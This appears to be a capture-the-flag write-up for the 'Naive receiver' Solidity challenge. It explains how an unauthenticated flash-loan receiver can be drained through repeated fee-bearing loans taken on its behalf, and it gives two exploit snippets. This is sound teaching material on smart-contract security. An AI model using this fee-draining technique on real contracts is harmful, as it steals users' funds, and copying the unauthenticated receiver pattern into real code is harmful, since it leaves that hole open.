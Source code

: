 # Naive receiver

## analyse

```js
after(async function () {
        /** SUCCESS CONDITIONS */

        // All ETH has been drained from the receiver
        expect(
            await ethers.provider.getBalance(this.receiver.address)
        ).to.be.equal('0');
        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.be.equal(ETHER_IN_POOL.add(ETHER_IN_RECEIVER));
    });
```

The goal is to drain the receiver’s contract and add ETHER_IN_RECEIVER to pool contract

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");

        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

- `address(this).balance >= balanceBefore + FIXED_FEE`：The flash loan contract that takes a heavy fee(1ETH) on each flash loan.

- The issue here is that the FlashLoanReceiver does not authenticate the caller to be the owner, so anyone can just take any flash loan on behalf of that contract. 
- To solve this challenge in a single transaction we can deploy a contract that repeatedly takes flash loans on the user contract’s behalf until its balance is less than the flash loan fee.
- in the test file, receiverFlashLoanReceiver gets 10 ETH , we should drain it. 

```js
await deployer.sendTransaction({ to: this.receiver.address, value: ETHER_IN_RECEIVER });
```

- The FlashLoanReceiver's function receiveEther(uint256) will pay `msg.value + fee` ETH to the pool.

```solidity
function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
```

- So if we take flash loans 10 times with zero ETH to loan on the user contract's behalf ,it will take FlashLoanReceiver 10 ETH fee in total.(Of course the transaction is called by the attacker, the gas will be decrease by attacker)

## solutions

way 1

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        const attackerContract = await (await ethers.getContractFactory('NaiveReceiverAttacker', attacker)).deploy(this.pool.address);
        await attackerContract.connect(attacker).attack(this.receiver.address, 10);
    });
```

way 2

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (i = 1; i <= 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0)
            console.log(i, String(await ethers.provider.getBalance(this.receiver.address)))
        }
    });
```































































































